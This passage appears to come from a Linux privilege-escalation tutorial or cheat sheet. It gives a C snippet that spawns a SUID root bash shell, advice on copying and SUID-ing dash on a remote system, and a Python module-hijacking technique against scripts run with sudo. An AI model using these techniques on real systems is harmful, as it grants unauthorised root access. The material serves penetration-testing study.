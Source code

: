 or

```none
int main(void) {
setgid(0); setuid(0);
system("/bin/bash -p"); }
```

However, if we have a unprivileged user, it is always better to check whether /bin/sh is the original binary or a symlink to /bin/bash or /bin/dash. If it's a symlink to bash, it won't provide us suid privileges, bash automatically drops its privileges when it's being run as suid (another security mechanism to prevent executing scripts as suid). So, it might be good idea to copy dash or sh to the remote system, suid it and use it.

More details can be found at [Common Pitfalls When Writing Exploits](http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html)

### Executing Python script with sudo

If there exists a python script which has a import statement and a user has a permission to execute it using sudo.

```none
<display_script.py>

#!/usr/bin/python3
import ftplib or import example
<Python code utilizing ftplib or example calling some function>
print (example.display())
```

and is executed using

```none
sudo python display_script.py
```

We can use this to privilege escalate to the higher privileges. As python would imports modules in the current directory first, then from the modules dir (PYTHONPATH), we could make a malicious python script (of the same name of import module such as ftplib or example)
and have it imported by the program. The malicious script may have a function similar to used in example.py executing our command. e.g.

```none
<example.py>
#!/usr/bin/python3
import os

def display():
    os.system("whoami")
    exit()
```

The result would be "root". This is mainly because [sys.path](https://docs.python.org/2/library/sys.html#sys.path) is populated using the current working directory, followed by directories listed in your PYTHONPATH environment variable, followed by installation-dependent default paths, which are controlled by the site module.

